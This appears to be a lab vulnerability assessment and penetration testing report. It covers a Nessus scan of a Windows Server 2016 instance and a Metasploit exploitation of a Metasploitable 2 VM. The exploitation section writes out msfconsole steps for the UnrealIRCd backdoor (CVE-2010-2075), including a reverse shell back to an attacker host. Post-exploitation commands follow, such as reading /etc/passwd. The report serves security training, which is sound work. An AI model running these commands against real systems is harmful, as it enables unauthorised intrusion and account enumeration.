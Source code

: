 # Vulnerability Assessment and Penetration Testing Report

## Introduction
This report details the vulnerability assessment and penetration testing performed on two environments: a Windows Server 2016 instance and a Metasploitable 2 virtual machine. The objective of this assessment was to identify and exploit security vulnerabilities using Nessus and Metasploit, respectively.

## Methodology
The assessment was conducted using the following tools:
- **Nessus**: For vulnerability scanning and assessment.
- **Metasploit**: For exploitation of identified vulnerabilities.

The steps followed during the assessment include:
1. Setting up the target environments (Windows Server 2016 and Metasploitable 2).
2. Performing vulnerability scans using Nessus.
3. Analyzing the scan results to identify potential vulnerabilities.
4. Attempting to exploit identified vulnerabilities using Metasploit.

## Windows Server 2016 Findings
### Vulnerability Scan Results
The Nessus scan on the Windows Server 2016 instance revealed several vulnerabilities. However, none were classified as critical. The notable findings include:

1. **SMB Signing not required**
   - **Description**: Signing is not required on the remote SMB server. This can allow an unauthenticated, remote attacker to conduct man-in-the-middle attacks against the SMB server.
   - **Solution**: Enforce message signing in the host's configuration. On Windows, this is found in the policy setting 'Microsoft network server: Digitally sign communications (always)'.

2. **ICMP Timestamp Response**
   - **Description**: The remote host answers to an ICMP timestamp request. This allows an attacker to know the date set on the targeted machine, which may assist in defeating time-based authentication protocols.
   - **Solution**: Filter out the ICMP timestamp requests (13), and the outgoing ICMP timestamp replies (14).

### Recommendations
1. **SMB Signing**
   - Enforce SMB message signing to prevent man-in-the-middle attacks.
2. **ICMP Timestamp**
   - Filter ICMP timestamp requests and replies to avoid potential information disclosure.

## Metasploitable 2 Findings
### Vulnerability Scan Results
The Nessus scan on the Metasploitable 2 virtual machine revealed multiple critical vulnerabilities. One such vulnerability was exploited using Metasploit.

### Exploitation Process
1. **UnrealIRCD 3.2.8.1 Backdoor Command Execution (CVE-2010-2075)**
   - **Description**: UnrealIRCd 3.2.8.1 contains a backdoor that allows remote command execution.
   - **Exploit Steps**:
     ```bash
     msfconsole
     search unreal_ircd
     use exploit/unix/irc/unreal_ircd_3281_backdoor
     set RHOST <192.168.74.129>
     set payload cmd/unix/reverse
     set LHOST <192.168.74.131>
     set LPORT 4444
     exploit
     ```
   - **Outcome**: Successful exploitation resulted in a command shell session.
     ```bash
     Command shell session 1 opened (192.168.74.131:4444 -> 192.168.74.129:46823)
     ```

### Post-Exploitation Steps
- **Verify Access**:
  ```bash
  Whoami
  ```
- **Gather System Information**:
 ```bash
 uname -a
 hostname
 ifconfig
 ```
- **Enumerate Users and Groups**:
 ```bash
 cat /etc/passwd
 cat /etc/group
 ```
- **Check for Network Connections**:
```bash
netstat -tulnp
```
- **Identify Installed Software**:
```bash
 dpkg -l
 ```
